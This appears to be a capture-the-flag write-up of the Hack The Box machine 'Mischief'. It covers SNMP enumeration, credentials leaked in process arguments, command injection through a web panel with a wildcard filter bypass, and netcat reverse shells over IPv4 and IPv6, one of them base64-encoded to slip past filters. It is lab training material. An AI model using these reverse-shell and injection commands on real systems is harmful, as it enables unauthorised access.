



# Mischief

This is the write-up for the box Mischief that got retired at the 5th January 2019.
My IP address was 10.10.14.20 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.92    mischief.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/mischief.nmap 10.10.10.92
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
|   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

UDP port scan:
```markdown
nmap -sU -o nmap/mischief-udp.nmap 10.10.10.92
```
```markdown
PORT    STATE SERVICE
161/udp open  snmp
```

Full TCP port scan:
```markdown
nmap -p- -o nmap/mischief-allports.nmap 10.10.10.92
```
```markdown
PORT     STATE SERVICE
22/tcp   open  ssh
3366/tcp open  creativepartnr
```

Running default scripts and version enumeration on port 3366
```markdown
nmap -p 3366 -sC -sV -o nmap/mischief_port3366.nmap 10.10.10.92
```
```markdown
PORT     STATE SERVICE VERSION
3366/tcp open  caldav  Radicale calendar and contacts server (Python BaseHTTPServer)
| http-auth:
| HTTP/1.0 401 Unauthorized\x0D
|_  Basic realm=Test
|_http-server-header: SimpleHTTP/0.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html).
```

## Checking SNMP (Port 161)

The strings from the **SNMP** service can be enumerated with **snmpwalk** and the default community string _public_ can be tried out:
```markdown
snmpwalk -c public -v2c 10.10.10.92 > snmp_results.txt
```

If the community string would not be clear, it is possible to brute-force it with the tool **onesixtyone**:
```markdown
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.92
```

The community string _public_ works and outputs all the SNMP information of the box.
> To make the outputs readable, the **MIBS** have to be downloaded (`apt install snmp-mibs-downloader`) to translate the numbers into human-readable format.

After looking through the network information, there is an **IPv6** address that could be interesting:
```markdown
cat snmpwalk_results.txt | grep ipv6
```
```markdown
dead:beef:0000:0000:0250:56ff:feb9:b8fb --> dead:beef::250:56ff:feb9:b8fb
```

A ping to this IPv6 address works and we will look for services on this address after checking the next service on port 3366.

## Checking HTTP (Port 3366)

When browsing to the web page, it shows a login prompt and default credentials don't work.
The web page runs on _SimpleHTTP_ and in order to pass _SimpleHTTPServer_ a password, it would be through an argument on the command line.
One of the things that _SNMP_ does, is to show currently running services, so lets search for this service:
```markdown
cat snmp_results.txt | grep SimpleHTTP
```

There is one line of output with exposed credentials:
```markdown
HOST-RESOURCES-MIB::hrSWRunParameters.624 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
```

These credentials work and now shows a table with another password and an image of Loki:

| Username | Password |
| -------- | -------- |
| loki | godofmischiefisloki |
| loki | trickeryanddeceit |

The other credentials could be used for another service, that is unknown yet, so lets search for services on the IPv6 address.

## Enumerating IPv6 services

Running an Nmap scan on the IPv6 address:
```markdown
nmap -sC -sV -o nmap/mischief_ipv6.nmap -6 dead:beef::250:56ff:feb9:b8fb
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
|   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| address-info:
|   IPv6 EUI-64:
|     MAC address:
|       address: 00:50:56:b9:b8:fb
|_      manuf: VMware
```

## Checking HTTP (Port 80)

Browsing to the IPv6 page:
```markdown
http://[dead:beef::250:56ff:feb9:b8fb]
```

On the web page it says _"Command Execution Panel"_ as the title and there is a button to _Login_.



The credentials don't work as they are, but after guessing some common usernames, the second password _"trickeryanddeceit"_ works with the username _administrator_ and logs us in.
Now it looks like a tool to execute system commands:



Pinging localhost gets executed successfully and also pinging our local client works successfully.
When putting a semicolon after the ping, it is possible to execute other commands and shows the output on the screen:
```markdown
whoami; echo
```



It says that there is a file called _credentials_ in the home directory, so lets read that:
```markdown
cat /home/loki/credentials; echo
```

It says that the command is not allowed, so there is some kind of filter.
When going through each word and execute it, only the word _"credentials"_ outputs this error. So the filter can be bypassed by a _wildcard (*)_ character:
```markdown
cat /home/loki/cred*; echo
```

Now it shows the contents of the file:
```markdown
pass: lokiisthebestnorsegod
```

The password works on SSH as the user _loki_ and shell access is gained:
```markdown
ssh loki@10.10.10.92
```

## Privilege Escalation

After looking through the files in the home directory of _loki_, the _.bash_history_ has some different credentials:
```markdown
python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
(...)
```

When trying to change users with `su`, it says _"Permission denied"_ even though the permissions look correct on the binary:
```markdown
-rwsr-xr-x+ 1 root root 44664 Jan 25  2018 /bin/su
```

There could be an **Access Control List** rule set for this binary that can be checked with `getfacl`:
```markdown
getfacl /bin/su
```
```markdown
flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x
```

The user _loki_ only has read access for the binary but everyone else can execute it.
We know that the service on port 80 is ran by _www-data_, so a reverse shell has to be started from there.

### Getting a shell as www-data

All filters that need to be bypassed can be found in _/var/www/html/index.php_.
```markdown
/bin/n? -h 2>&1; echo
```

This shows the help of `netcat` and can be used to get a reverse shell with that:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/n? 10.10.14.20 9001 >/tmp/f
```

It does not start a shell session, so maybe there is a firewall that blocks it but there is still the **IPv6** way to use:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/n? -6 dead:beef:2::1012 9001 >/tmp/f
```

It connects back to us and starts a reverse shell but executing commands does not work, probably because of all the special characters.
Instead sending it as a **Base64-decoded** string, should resolve this issue:
```markdown
echo -n 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/n? -6 dead:beef:2::1012 9001 >/tmp/f' | base64 -w 0
```

And now it can be executed by piping it to `sh`:
```markdown
echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8L2Jpbi9uPyAtNiBkZWFkOmJlZWY6Mjo6MTAxMiA5MDAxID4vdG1wL2Y= | base64 -d | sh
```

It starts a reverse shell session on my IP and port 9001 as the user _www-data_.

Now it is possible to use the `su` command to change users. As we had access with _loki_ before, the password _"lokipasswordmischieftrickery"_ can only belong to root:
```markdown
su -
```

After sending the password, it changes user to root but _root.txt_ contents say the following:
```markdown
The flag is not here, get a shell to find it!
```

### Getting root.txt

The file was created on _May 17_:
```markdown
-r-------- 1 root root 46 May 17  2018 root.txt
```

Lets search for files that were modified between _May 15_ and _May 19_ to see where the real _root.txt_ was moved:
```markdown
find / -newermt 2018-05-15 ! -newermt 2018-05-19 -type f 2>/dev/null
```

It finds some files and one of them is _/usr/lib/gcc/x86_64-linux-gnu/7/root.txt_.
This is the correct _root.txt_!
